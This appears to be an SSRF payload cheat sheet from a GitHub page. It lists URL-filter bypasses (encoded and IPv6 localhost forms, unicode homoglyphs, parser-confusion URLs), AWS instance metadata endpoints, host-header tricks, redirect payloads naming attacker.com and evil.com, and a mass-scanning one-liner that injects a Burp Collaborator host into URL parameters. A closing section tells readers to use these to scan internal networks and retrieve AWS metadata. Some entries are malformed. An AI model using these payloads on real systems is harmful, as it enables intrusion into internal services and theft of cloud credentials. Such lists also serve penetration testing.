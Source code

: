إليك تنظيم النقاط بشكل نصي عادي ومنظم:

---

### **SSRF (Server-Side Request Forgery) Payloads & Techniques**

#### **1. SSRF Payloads to Bypass Firewall**
1. **Bypass SSRF with CIDR**:
   ```bash
   http://127.127.127.127
   ```
2. **Bypass using Rare Address**:
   ```bash
   http://127.1
   ```
3. **Bypass using Tricks Combination**:
   ```bash
   http://1.1.1.802.2.2.2#03.3.3.3/
   urllib:3.3.3.3
   ```
4. **Bypass against a Weak Parser**:
   ```bash
   http://127.1.1.180@127.2.2.2:80/
   ```
5. **Bypass Localhost with `[::]`**:
   ```bash
   http://[::]:80/
   http://0000::1:80/
   ```

#### **2. What SSRF Allows**
- **Access Services on Loopback Interface**:
  ```bash
  Access services running on the loopback interface.
  ```
- **Scan Internal Network**:
  ```bash
  Scan and interact with internal network services.
  ```
- **Read Local Files**:
  ```bash
  Use `file://` protocol handler to read local files.
  ```
- **Lateral Movement**:
  ```bash
  Move laterally within the internal environment.
  ```

#### **3. Finding SSRF**
- **External Resource Access**:
  ```bash
  Test if the application allows loading external resources (e.g., profile images).
  ```
- **Port Scanning**:
  ```bash
  Use Burp Suite Intruder to scan ports by manipulating URLs.
  ```
- **Internal IP Scanning**:
  ```bash
  Scan private IP ranges like 192.168.x.x to discover alive hosts.

#### **4. AWS Metadata Retrieval**
- **AWS Metadata Endpoints**:
  ```bash
  http://169.254.169.254/computeMetadata/v1
  http://169.254.169.254/latest/meta-data
  ```

#### **5. URL Manipulation**
- **Burp Collaborator**:
  ```bash
  If the response has a link parameter, try sending it with your Burp Collaborator.
  ```
- **Open Redirect**:
  ```bash
  https://www.hahwul.com/phoenix/ssrf-open-redirect/
  ```

#### **6. Advanced SSRF Techniques**
- **Host Header Manipulation**:
  ```bash
  curl ip -H 'HOST: localhost'
  ```
- **Subdomain Manipulation**:
  ```bash
  target.com.(aydomain has IP 127.0.0.1)
  ```
- **Special Characters**:
  ```bash
  trarget.\com/%09/myburpcollab
  trarget.\com//myburpcollab
  trarget.\com\\myburpcollab
  target.\com/%0d/myburpcollab
  redirect_uri=target.\com&redirect_uri=attacker\.com
  redirect_uri=target.\com%40myburpcollab.\com
  ```
- **URL Parser Logic**:
  ```bash
  http://evil§google.com
  http://127.1:80@127.2.2.280/
  http://127.1:80@@127.2.2.280/
  0://evil.com:80http://google.com:80/
  ```
- **Unicode Normalization**:
  ```bash
  http://gооgle.com
  http://gⓞⓞgle.cⓞm
  ```
- **Address Encoding**:
  ```bash
  http://0177.0.0.1           # Octal Representation
  http://2130706433/          # Decimal Representation
  http://0x7f.0x0.0x0.0x1/    # Hex Representation
  http://0177.0x0.0x0.0x1/    # Mixed Representation
  ```
- **Localhost Representation**:
  ```bash
  http://0/
  http://127.1/
  http://0.0.0.0/
  http://127.127.127.127/
  ```

#### **7. IPv4 & IPv6 Variations**
- **IPv4 Standard Format**:
  ```bash
  http://127.0.0.1/
  ```
- **IPv4 Shortened Formats**:
  ```bash
  http://127.1/
  http://127.0.1/
  ```
- **IPv4 Decimal Representation**:
  ```bash
  http://2130706433/
  ```
- **IPv6 Representations**:
  ```bash
  http://[::1]/               # Standard IPv6 localhost
  http://[::ffff:127.0.0.1]/  # Mixed IPv6/IPv4
  ```
- **Localhost Name Variants**:
  ```bash
  http://localhost/
  http://localhost.localdomain/
  http://127.in-addr.arpa/
  ```
- **Empty Host**:
  ```bash
  http:///
  http://0/
  ```
- **Loopback Address Variants**:
  ```bash
  http://127.0.0.254/
  http://10.0.0.1/            # مثال لاختبار خاص بشبكات داخلية
  ```
- **Unicode and Punycode Normalization**:
  ```bash
  http://locaⅼhost/          # "l" مكتوب بـ Unicode مختلف
  http://lоcalhost/          # "o" مكتوب بشكل مختلف
  ```
- **Port Variations**:
  ```bash
  http://127.0.0.1:80/
  http://127.0.0.1:443/
  http://localhost:8080/
  http://localhost:3000/
  ```

#### **8. Blind SSRF Chains**
- **GitHub Resource**:
  ```bash
  https://github.com/assetnote/blind-ssrf-chains
  ```

#### **9. Automation Tools**
- **Findomain & Gau**:
  ```bash
  findomain -t DOMAIN -q | httpx -silent -threads 1000 | gau | grep "=" | qsreplace your.burpcollaborator.net
  ```

---

### **How to Use This Information**
1. **Payload Testing**:
   - Use the provided payloads to test for SSRF vulnerabilities.
2. **Internal Network Scanning**:
   - Scan internal networks and services using SSRF.
3. **AWS Metadata Retrieval**:
   - Exploit SSRF to retrieve AWS metadata.
4. **URL Manipulation**:
   - Manipulate URLs to bypass filters and access restricted resources.
5. **Automation**:
   - Use tools like Findomain and Gau to automate SSRF discovery.

---

### **To fuzz for inoternal Ports**
- https://github.com/a7madn1/Fuzzing

---

- https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet#id=8abff2b134596d1a84408e32730f1cc9c37cf68b
- https://portswigger.net/research/bypassing-character-blocklists-with-unicode-overflows
- https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html

